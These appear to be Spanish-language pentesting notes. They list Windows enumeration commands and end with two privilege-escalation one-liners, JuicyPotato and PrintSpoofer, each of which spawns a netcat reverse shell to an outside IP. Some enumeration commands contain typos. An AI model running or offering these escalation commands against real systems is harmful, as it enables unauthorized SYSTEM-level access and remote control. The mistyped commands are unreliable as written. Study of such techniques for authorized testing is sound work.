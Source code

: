 #### Ver los hot-fixes del sistema
##### cmd
    wmic qfe
##### powershell 
    Get-HotFix | ft -AustoSize

##### Ver los programas instalados:
##### cmd
    wmic product get name
##### powershell
    Get-WmiObject - Class Win32_Product | select Name, Version

### Ver las conexiones TCP y UDP en la pc:
    
    netstat -ano


las conexiones al local host (127.0.0.1 o ::1) son de procesos que corren solamente dentro del sistema, son propensas entonces a ser menos seguras por no estar en expuestas. 

#### privilegios de nuestro user:
    whoami /priv

#### conocer los grupos a los que pertenece el user:
    whoami /groups

#### Listar grupos en el sistema:
    net localgroup

#### ver miembros de un grupo:
    net localgroup <GRUPO>

#### ver la política de passwords y otras informaciones de cuenta:
    net accounts

#### ver los usuarios logueados y datos de sus sessiones:
    query user




### Escalar privilegios con JuiciPotato:
    JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *

### Escalar privilegios con PrintSpoofer
    PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"



## EXPLOTACION DE SERVICIOS

